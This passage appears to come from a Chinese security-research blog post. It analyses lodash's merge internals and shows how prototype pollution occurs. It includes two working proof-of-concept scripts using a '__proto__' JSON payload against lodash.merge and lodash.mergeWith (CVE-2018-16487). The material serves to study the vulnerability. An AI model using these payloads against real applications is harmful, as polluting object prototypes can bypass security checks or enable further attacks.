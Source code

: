 lodash.merge 就不需要多说了，这里实际上和我们前面的 merge 是一样的。这里我们可以去研究一下它的源码：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-fa30de705447bfa25d09c45fc8be91674093a98a.png)

merge 方法是基于 baseMerge 的，我们来到 baseMerge 处

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-72241d83e929118719429889eb5d28bdceb3f27b.png)

可以看到，这里实际上也没有进行 merge 的操作，而是进行了一系列的 if ，进行了整理与划分。

我们 merge 的对象一定是 object ，我们会在 第二处 if 处进入，来到 baseMergeDeep 方法。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-54f1164dd724bc10187e9104fbca34afbf51293c.png)

可以看到，我们首先要进入到 baseAssignValue

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a3d62c9ab1dcdbb04458b819e328ad2e261f0a29.png)

这里的 if 判断可以绕过，最终进入 `object[key] = value` 的赋值操作，这里对键值进行了操作们也就是说我们可以利用这里来实现原型链污染了。

POC:

```js
var lodash= require('lodash');
var payload = '{"__proto__":{"polluted":"yes"}}';

var a = {};
console.log("Before polluted: " + a.polluted);
lodash.merge({}, JSON.parse(payload));
console.log("After polluted: " + a.polluted);
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-c35c63e82fddaba89d83419b8c161dda91a9b415.png)

POC 测试，`lodash.merge({}, JSON.parse(payload));`

### lodash.mergeWith 方法 `CVE-2018-16487`

POC:

```js
var lodash= require('lodash');
var payload = '{"__proto__":{"polluted":"yes"}}';

var a = {};
console.log("Before polluted: " + a.polluted);
lodash.mergeWith({}, JSON.parse(payload));
console.log("After polluted: " + a.polluted);
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-5ae9c6ea5160293ffe0558d5d6a6c1b378f582a7.png)

这里就不进行进一步分分析了，几乎可以说是和 merge 一模一样

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-ffa613e677a2cf832b844b94e68ff02d82eaa4b2.png)
